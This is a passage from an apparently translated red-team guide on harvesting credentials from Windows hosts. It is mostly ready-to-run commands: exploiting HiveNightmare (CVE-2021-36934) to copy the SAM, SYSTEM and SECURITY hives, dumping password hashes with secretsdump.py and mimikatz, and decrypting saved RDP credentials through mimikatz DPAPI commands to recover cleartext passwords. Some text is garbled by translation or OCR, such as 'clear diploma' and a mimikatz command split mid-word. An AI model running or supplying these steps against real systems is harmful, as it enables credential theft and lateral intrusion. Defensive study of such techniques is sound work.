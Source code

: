 - Using the `HiveNightmare` privilege escalation vulnerability (`CVE-2021-36934`), you can directly read the `SAM` and `SYSTEM` files. The utilization condition is to create a system restore point, and the impact range is all versions released since `Windwos10 Version 1809`, including `Windows11`. Tool download address: [https://github.com/GossiTheDog/HiveNightmare/releases/download/0.6/HiveNightmare.exe](https://github.com/GossiTheDog/HiveNightmare/releases/download/0.6/HiveNightmare.exe). Tool download address: [https://github.com/fortra/impacket/blob/master/examples/secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py).

```powershell
# Execute HiveNightmare.exe directly and export to generate three files SAM, SYSTEM, and SECURITY in the current directory.
./HiveNightmare.exe
# Run Impacket's secretsdump.py to export the hash value in the SAM file
python3 secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
```

- Execute the command under administrator privileges and export it by saving the registry

```powershell
reg save HKEY_LOCAL_MACHINE\SAM\SAM sam.hive # Export SAM registry
reg save HKEY_LOCAL_MACHINE\SYSTEM system.hive # Export SYSTEM registry
 
mimikatz.exe "lsadump::sam /sam:sam.hive /system:system.hive" exit # Use mimikatz to read the content of SAM file
```

## Get common application credentials

### Get RDP saved credentials

The credentials for the `RDP`remote desktop connection are stored in the `Windows` credential manager in the `%USERPROFILE%\AppData\Local\Microsoft\Credentials` path.

Execute the following command to view all connection credentials saved on the current host:

```powershell
cmdkey /list # View the currently saved credentials
dir /a %USERPROFILE%\AppData\Local\Microsoft\Credentials\* # Traverse the historical connection credential data saved in the Credentials directory
```

![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%209.png)

Use `mimikatz` to export the specified `RDP` connection credentials and execute the following command:

```powershell
mimikatz.exe "privilege::debug" "dpapi::cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D" exit # Use mimikatz to parse the specified connection credentials, pbData is the encrypted data of the credentials, guidMasterKey is the GUID of the credentials, and record the value of guidMasterKey
 
mimikatz.exe "privilege::debug" "sek
urlsa::dpapi" exit # Find the MasterKey associated with guidMasterKey(GUID), which is the key used to encrypt the credentials
 
mimikatz.exe "dpapi::cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D/masterkey:a5587e7ce36a2ba6d7df33402d4ddcfaaa96fcbd7eb5fe37aafdd3ca0d24e2c62069be8bcce6075240f538fe060f74902d1ef2b2a99612185a4eeb923a2330dc" exit # Use the found MasterKey to crack the specified credential file DFBE70A7E5CC19A398EBF1B96859CE5D to obtain RDP clear diploma
```
